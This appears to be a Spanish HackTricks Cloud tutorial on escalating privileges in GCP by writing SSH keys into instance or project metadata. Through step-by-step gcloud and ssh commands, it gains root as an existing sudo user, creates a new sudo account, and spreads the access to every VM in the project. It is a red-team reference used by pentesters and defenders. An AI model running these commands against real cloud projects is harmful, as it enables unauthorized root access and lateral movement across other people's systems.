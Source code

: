 # GCP - Añadir Metadatos SSH Personalizados

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver a tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF**, consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de github de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Modificando los metadatos <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Si puedes **modificar los metadatos de la instancia**, hay numerosas formas de escalar privilegios localmente. Hay algunos escenarios que pueden llevar a una cuenta de servicio con este permiso:

_**Cuenta de servicio predeterminada**_\
Si el **alcance** de acceso de la cuenta de servicio está configurado para **acceso completo** o al menos permite explícitamente el **acceso a la API de compute**, entonces esta configuración es **vulnerable** a la escalada. El **alcance** **predeterminado** **no** es **vulnerable**.

_**Cuenta de servicio personalizada**_\
Al usar una cuenta de servicio personalizada, **una** de los siguientes permisos IAM **es** **necesario** para escalar privilegios:

* `compute.instances.setMetadata` (para afectar a una sola instancia)
* `compute.projects.setCommonInstanceMetadata` (para afectar a todas las instancias en el proyecto)

Aunque Google [recomienda](https://cloud.google.com/compute/docs/access/service-accounts#associating\_a\_service\_account\_to\_an\_instance) no usar alcances de acceso para cuentas de servicio personalizadas, todavía es posible hacerlo. Necesitarás uno de los siguientes **alcances de acceso**:

* `https://www.googleapis.com/auth/compute`
* `https://www.googleapis.com/auth/cloud-platform`

### **Añadir claves SSH a metadatos personalizados**

Los **sistemas Linux** en GCP suelen ejecutar scripts del [Entorno de Invitado Linux de Python para Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Uno de estos es el [daemon de cuentas](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), que **consulta periódicamente** el punto final de metadatos de la instancia para **cambios en las claves públicas SSH autorizadas**.

**Si se encuentra una nueva clave pública**, se procesará y **se añadirá a la máquina local**. Dependiendo del formato de la clave, se añadirá al archivo `~/.ssh/authorized_keys` de un **usuario existente o creará un nuevo usuario con derechos de `sudo`**.

Por lo tanto, si puedes **modificar los metadatos personalizados de la instancia** con tu cuenta de servicio, puedes **escalar** a root en el sistema local **obteniendo derechos SSH** en una cuenta privilegiada. Si puedes modificar **metadatos personalizados del proyecto**, puedes **escalar** a root en **cualquier sistema del proyecto GCP actual** que esté ejecutando el daemon de cuentas.

### **Añadir clave SSH a usuario privilegiado existente**

Empecemos por añadir nuestra propia clave a una cuenta existente, ya que probablemente eso generará menos ruido.

**Verifica la instancia para claves SSH existentes**. Elige uno de estos usuarios, ya que es probable que tengan derechos de sudo.
```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
Busca una sección como la siguiente:
```
...
metadata:
fingerprint: QCZfVTIlKgs=
items:
...
- key: ssh-keys
value: |-
alice:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC/SQup1eHdeP1qWQedaL64vc7j7hUUtMMvNALmiPfdVTAOIStPmBKx1eN5ozSySm5wFFsMNGXPp2ddlFQB5pYKYQHPwqRJp1CTPpwti+uPA6ZHcz3gJmyGsYNloT61DNdAuZybkpPlpHH0iMaurjhPk0wMQAMJUbWxhZ6TTTrxyDmS5BnO4AgrL2aK+peoZIwq5PLMmikRUyJSv0/cTX93PlQ4H+MtDHIvl9X2Al9JDXQ/Qhm+faui0AnS8usl2VcwLOw7aQRRUgyqbthg+jFAcjOtiuhaHJO9G1Jw8Cp0iy/NE8wT0/tj9smE1oTPhdI+TXMJdcwysgavMCE8FGzZ alice
bob:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC2fNZlw22d3mIAcfRV24bmIrOUn8l9qgOGj1LQgOTBPLAVMDAbjrM/98SIa1NainYfPSK4oh/06s7xi5B8IzECrwqfwqX0Z3VbW9oQbnlaBz6AYwgGHE3Fdrbkg/Ew8SZAvvvZ3bCwv0i5s+vWM3ox5SIs7/W4vRQBUB4DIDPtj0nK1d1ibxCa59YA8GdpIf797M0CKQ85DIjOnOrlvJH/qUnZ9fbhaHzlo2aSVyE6/wRMgToZedmc6RzQG2byVxoyyLPovt1rAZOTTONg2f3vu62xVa/PIk4cEtCN3dTNYYf3NxMPRF6HCbknaM9ixmu3ImQ7+vG3M+g9fALhBmmF bob
...
```
Tenga en cuenta el **formato ligeramente inusual** de las claves públicas: el **nombre de usuario** se indica al **principio** (seguido de dos puntos) y luego nuevamente al **final**. Necesitaremos seguir este formato. A diferencia del funcionamiento normal de las claves SSH, ¡el nombre de usuario importa absolutamente!

**Guarde las líneas con nombres de usuario y claves en un nuevo archivo de texto** llamado `meta.txt`.

Supongamos que estamos apuntando al usuario `alice` mencionado anteriormente. **Generaremos una nueva clave** para nosotros mismos de esta manera:
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
Agregue su nueva clave pública al archivo `meta.txt` imitando el formato:
```
alice:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC/SQup1eHdeP1qWQedaL64vc7j7hUUtMMvNALmiPfdVTAOIStPmBKx1eN5ozSySm5wFFsMNGXPp2ddlFQB5pYKYQHPwqRJp1CTPpwti+uPA6ZHcz3gJmyGsYNloT61DNdAuZybkpPlpHH0iMaurjhPk0wMQAMJUbWxhZ6TTTrxyDmS5BnO4AgrL2aK+peoZIwq5PLMmikRUyJSv0/cTX93PlQ4H+MtDHIvl9X2Al9JDXQ/Qhm+faui0AnS8usl2VcwLOw7aQRRUgyqbthg+jFAcjOtiuhaHJO9G1Jw8Cp0iy/NE8wT0/tj9smE1oTPhdI+TXMJdcwysgavMCE8FGzZ alice
bob:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC2fNZlw22d3mIAcfRV24bmIrOUn8l9qgOGj1LQgOTBPLAVMDAbjrM/98SIa1NainYfPSK4oh/06s7xi5B8IzECrwqfwqX0Z3VbW9oQbnlaBz6AYwgGHE3Fdrbkg/Ew8SZAvvvZ3bCwv0i5s+vWM3ox5SIs7/W4vRQBUB4DIDPtj0nK1d1ibxCa59YA8GdpIf797M0CKQ85DIjOnOrlvJH/qUnZ9fbhaHzlo2aSVyE6/wRMgToZedmc6RzQG2byVxoyyLPovt1rAZOTTONg2f3vu62xVa/PIk4cEtCN3dTNYYf3NxMPRF6HCbknaM9ixmu3ImQ7+vG3M+g9fALhBmmF bob
alice:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDnthNXHxi31LX8PlsGdIF/wlWmI0fPzuMrv7Z6rqNNgDYOuOFTpM1Sx/vfvezJNY+bonAPhJGTRCwAwytXIcW6JoeX5NEJsvEVSAwB1scOSCEAMefl0FyIZ3ZtlcsQ++LpNszzErreckik3aR+7LsA2TCVBjdlPuxh4mvWBhsJAjYS7ojrEAtQsJ0mBSd20yHxZNuh7qqG0JTzJac7n8S5eDacFGWCxQwPnuINeGoacTQ+MWHlbsYbhxnumWRvRiEm7+WOg2vPgwVpMp4sgz0q5r7n/l7YClvh/qfVquQ6bFdpkVaZmkXoaO74Op2Sd7C+MBDITDNZPpXIlZOf4OLb alice
```
Ahora, puedes **reescribir los metadatos de la clave SSH** para tu instancia con el siguiente comando:
```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
Ahora puedes **acceder a un shell en el contexto de `alice`** de la siguiente manera:
```
lowpriv@instance:~$ ssh -i ./key alice@localhost
alice@instance:~$ sudo id
uid=0(root) gid=0(root) groups=0(root)
```
### **Crear un nuevo usuario privilegiado y añadir una clave SSH**

¿No se encontraron claves existentes siguiendo los pasos anteriores? ¿No hay nadie más interesante en `/etc/passwd` para atacar?

Puedes **seguir el mismo proceso** que arriba, pero simplemente **inventar un nuevo nombre de usuario**. Este usuario se creará automáticamente y se le otorgarán derechos para `sudo`. El proceso automatizado se vería así:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### Claves SSH a nivel de proyecto <a href="#sshing-around" id="sshing-around"></a>

Siguiendo los detalles mencionados en la sección anterior, puedes intentar comprometer más VMs.

Podemos expandir un poco sobre esto [**aplicando claves SSH a nivel de proyecto**](https://cloud.google.com/compute/docs/instances/adding-removing-ssh-keys#project-wide), otorgándote permiso para **conectarte por SSH a una cuenta privilegiada** en cualquier instancia que no haya elegido explícitamente la opción "Bloquear claves SSH de todo el proyecto".
```
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
Si te sientes realmente audaz, también puedes simplemente escribir `gcloud compute ssh [INSTANCE]` para usar tu nombre de usuario actual en otras máquinas.

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver a tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF**, consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sigue** a **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de github de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
